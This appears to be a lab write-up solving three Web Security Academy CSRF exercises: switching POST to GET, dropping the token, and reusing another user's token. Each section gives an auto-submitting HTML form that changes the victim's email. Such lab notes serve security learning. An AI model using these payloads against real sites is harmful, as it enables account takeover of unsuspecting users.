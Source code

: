 # CSRF where token validation depends on request method

Side server have to apply differents validations, in this case the request work with POST, but what happens if we change the method to GET?

When you have the request right click in repeater > change request method.

If you send now the request you see that works well via GET, but if you try to remove the CSRF token?.

Ups, works well!.

**In our exploit server we can do the request with GET and without csrf token**.

```html
<form class="login-form" name="change-email-form" action="https://0a87002503b4bf318075035300f900dd.web-security-academy.net/my-account/change-email" method="GET">
    <input type="hidden" name="email" value="pwned@test.com">
</form>

<script>
document.forms[0].submit();
</script>
```

# CSRF where token validation depends on token being present

This is very simple lab, we request the request with burp and remove the CSRF token, the server is not validating the csrf_token. Good job, implement something for not validate after.

```html
<form class="login-form" name="change-email-form" action="https://0a48006504829b8d80da034c006c0045.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned@test.com">
</form>

<script>
document.forms[0].submit();
</script>
```

# CSRF where token is not tied to user session

In this lab, when we intercept the request to change the email, we see that when try to change the email have different csrf token, we can't omit the csrf token or change the method.

In this lab gives us two users. If we try to change the email in different users we see the different tokens, but **what happens if we try to use the csrf token of one user in the other**?.

```html
<form class="login-form" name="change-email-form" action="https://0a4b00a403693622829d434300c90045.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="pwned@wiener.com">
<input type="hidden" name="csrf" value="Vpqd4tl22iAvUEIeh4dM7VxHuMNkOC34">
</form>

<script>
document.forms[0].submit();
</script>
```
